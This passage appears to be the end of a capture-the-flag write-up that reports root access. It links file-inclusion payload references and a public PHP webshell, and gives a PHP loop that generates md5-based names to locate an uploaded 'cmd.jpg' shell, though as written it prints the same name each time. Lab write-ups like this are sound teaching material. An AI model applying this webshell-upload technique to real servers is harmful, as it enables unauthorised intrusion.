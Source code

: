 <img width="861" alt="Screenshot 2022-03-02 at 02 53 29" src="https://user-images.githubusercontent.com/64267672/156868284-1e3a6369-167f-44b3-8783-b670bc274363.png">

ssh as root user & we have root access on this machine. 




###RESOURCES;

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#wrapper-phpfilter


https://base64.guru/converter/decode/file


Webshell - https://github.com/WhiteWinterWolf/wwwolf-php-webshell/blob/master/webshell.php


 ```Php script to locate file - 

// save in a file name time.php //

<?php
$upload_dir = "images/uploads/";
$file = "cmd.jpg";

while(true){
    $file_name = md5('$file_hash'. 1646184162) . '_' . $file;
    $target_file = $upload_dir . $file_name;
    echo $file_name;
    echo PHP_EOL;
    sleep(1);
}

```




